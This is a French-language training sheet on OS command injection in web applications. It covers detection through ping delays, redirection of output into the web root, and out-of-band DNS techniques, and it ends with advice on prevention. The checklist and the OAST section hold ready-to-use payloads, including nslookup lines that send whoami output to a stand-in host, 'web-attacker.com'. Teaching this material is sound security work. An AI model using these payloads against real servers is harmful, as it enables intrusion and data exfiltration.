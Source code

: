 ```yaml
---
title: "Command injection"
category: "Serveur"
tag: "Web"
---
```


## CheckList en pratique
- Injection avec retour d'information : `& whoami &` avec les différents séparateurs de commandes (`&, &&, |, ||, ;, \n, 0x0a`)
- Bind injection :
    - Détecter en provoquant du délai : `qsParam=test||ping+-c+10+127.0.0.1+||`
    - Exploitation en faire une redirection dans un dossier writable : `email=||whoami>/var/www/images/output.txt||`
    - Exploitation par injection utilisant des techniques **OAST** :
    ``&email=test||nslookup+kgji2ohoyw.web-attacker.com||`` 
    - Exploitation & **exfiltration de données** par injection utilisant des techniques **OAST** : 
    ``&email=test||nslookup+`whoami`.kgji2ohoyw.web-attacker.com||``

## Explication de la vulnérabilité
Cette vulnérabilité web permet à un attaquant d'exécuter une commande de système d'exploitation (OS) sur le serveur sur lequel l'application est exécutée, et compromettre toute l'application et ses données. Souvent, cette attaque amène à une exploitation de l'infrastructure hôte en pivotant sur d'autres systèmes de l'organisation.

## Exécution de commandes arbitraires
Considérons un site de magasin qui vérifie si un article est en stock de la manière suivante :
`https://insecure-website.com/stockStatus?productID=381&storeID=29`.
Pour fournir l'information et pour des raisons historiques, la fonctionnalité va appelé une commande shell avec le produit et son ID de la manière suivante :
`stockreport.pl 381 29`, et le retour est renvoyé à l'utilisateur.

Sans protection, l'attaquant peut injecter la commande suivante `& echo toto &` ce qui donnera `stockreport.pl & echo toto & 29`

## Commandes utiles

|Purpose of command|Linux|Windows|
|:----|:----|:----|
|Nom de l'utilisateur courant|whoami|whoami|
|système d'exploitation|uname -a|ver|
|configuration réseau|ifconfig|ipconfig /all|
|connections réseau|netstat -an|netstat -an|
|processus courants|ps -ef|tasklist|

## Vulnérabilités d'injection Blind de commandes OS
De nombreuses injections de commandes sont faites en aveugle, ce qui veut dire que l'application ne renvoie pas de sortie de la commande dans la réponse HTTP. On peut exploiter les vulnérabilités en aveugle, mais de différentes manières.

Pour illustrer cela, on peut prendre le cas d'une application qui permet de donner un feedback sur un site en donnant son adresse mail et le message de feedback. L'application du côté serveur génère un email vers l'administrateur du site contenant le feedback. 

Pour cela, il peut utiliser un programme `mail` avec les détails, par exemple :
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`
### Détecter les injections de commandes OS en aveugle avec l'utilisation de délais
On peut utiliser une injection de commande qui va ajouter un temps de délai, nous permettant de voir que la commande a bien été injecté.
On peut faire ça avec `ping` par exemple, pour allonger le temps de traitement  :
`& ping -c 10 127.0.0.1 &`
Cette commande va ping son adresse réseau de loopback pendant 10 sec.

### Exploitation d'injections de commandes OS en aveugle par redirection de sortie
On peut rediriger la sortie de l'injection de commandes dans un fichier à l'intérieur de la racine du site web, que l'on peut récupérer avec le navigateur ensuite.

Par exemple, si l'application sert des ressources statiques à partir de l'emplacement du système de fichiers `/var/www/static`, vous pouvez soumettre l'entrée suivante :

`& whoami > /var/www/static/whoami.txt &`

### Exploitation d'injections de commandes OS en aveugle à l'aide de techniques hors bande (OAST)
On peut utiliser une commande injectée qui déclenchera une interaction réseau hors bande avec un système qu'on contrôle, en utilisant des techniques OAST.  
En voici un exemple :
`& nslookup kgji2ohoyw.web-attacker.com &`

Ce payload utilise la commande nslookup pour provoquer une recherche DNS pour le domaine spécifié. L'attaquant peut surveiller l'exécution de la recherche spécifiée et détecter ainsi que la commande a été injectée avec succès.

On peut aussi exfiltrer facilement la sortie de commandes avec cette technique :  
``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``  
ce qui provoquera une recherche DNS vers le domaine de l'attaquant contenant le résultat de la commande whoami :
`www.user.kgji2ohoyw.web-attacker.com`

## Façons d'injecter des commandes du système d'exploitation
De nombreux métacaractère du shell peuvent être utilisés pour effectuer des attaques par OS command injection.
On peut citer les caractères qui servent de séparateurs de commandes, permettant d'enchaîner les commandes.

Sous Windows et Unix on a par exemple :
- `&`
- `&&`
- `|`
- `||`

Sous les systèmes basés sur Unix :
- `;`
- `\n` ou `0x0a`
On a également la possibilité de faire des commandes de types inline :
- `` ` ``
- `$()`

## Comment s'en prémunir
La meilleure manière de s'en prémunir est de ne jamais appeler des commandes OS à partir d'un code provenant de la couche applicative. Il existe des alternatives sécurisées notamment avec des APIs.

S'il est inévitable de faire une commande OS avec une entrée utilisateur, alors une validation de l'entrée doit être faite, ce qui peut inclure :
- une validation à l'aide d'une liste blanche des valeurs autorisées.
- une validation si l'entrée doit être un caractère numérique.
- une validation des entrées alphanumériques, sans autoriser d'autres caractères comme les espaces ou autres.